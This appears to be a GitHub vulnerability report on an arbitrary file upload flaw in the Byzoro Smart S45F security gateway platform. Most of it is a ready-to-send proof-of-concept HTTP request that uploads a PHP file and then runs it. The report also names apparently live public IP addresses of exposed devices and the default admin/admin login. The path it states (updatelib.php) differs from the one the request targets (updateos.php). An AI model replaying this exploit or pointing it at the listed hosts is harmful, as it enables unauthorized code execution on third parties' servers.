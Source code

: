 ![image](https://github.com/llixixi/cve/assets/144869546/60577e5f-65f6-4571-938f-6708cb2dc594)Beijing Baizhuo Network Technology Co., Ltd. (hereinafter referred to as Baizhuo Network) is a high-tech enterprise dedicated to building the next generation of secure Internet. Byzro Networks Smart S45F multi-service security gateway intelligent management platform has a file upload vulnerability. Attackers can exploit vulnerabilities to gain server privileges or cause business impact on the system.

official：https://www.byzoro.com/

version: S45

Vulnerability Path ：/sysmanage/updatelib.php?

Ip：https://103.121.164.62:8443/

Account password: admin/admin


poc:

```
POST /sysmanage/updateos.php? HTTP/1.1
Host: 222.180.2.66:8443
Cookie: PHPSESSID=c36d5527fd784aa29748b3b1c50be7bc
User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64; Trident/7.0; rv:11.0) like Gecko
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------42328904123665875270630079328
Content-Length: 597
Origin: https://222.180.2.66:8443
Referer: https://222.180.2.66:8443/sysmanage/licence.php
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
Connection: close

-----------------------------42328904123665875270630079328
Content-Disposition: form-data; name="1_file_upload"; filename="1.php"
Content-Type: application/octet-stream

<?php phpinfo()?>
-----------------------------42328904123665875270630079328
Content-Disposition: form-data; name="id_type"

1
-----------------------------42328904123665875270630079328
Content-Disposition: form-data; name="1_ck"

1_radhttp
-----------------------------42328904123665875270630079328
Content-Disposition: form-data; name="mode"

set
-----------------------------42328904123665875270630079328—

```
<img width="604" alt="image" src="https://github.com/llixixi/cve/assets/144869546/2ae1fbbc-8f55-491c-a457-2b9dbb2ee081">

https://103.121.164.62:8443/home/1.php
<img width="599" alt="image" src="https://github.com/llixixi/cve/assets/144869546/dbbc9b88-5779-4d2d-9450-361015f96626">



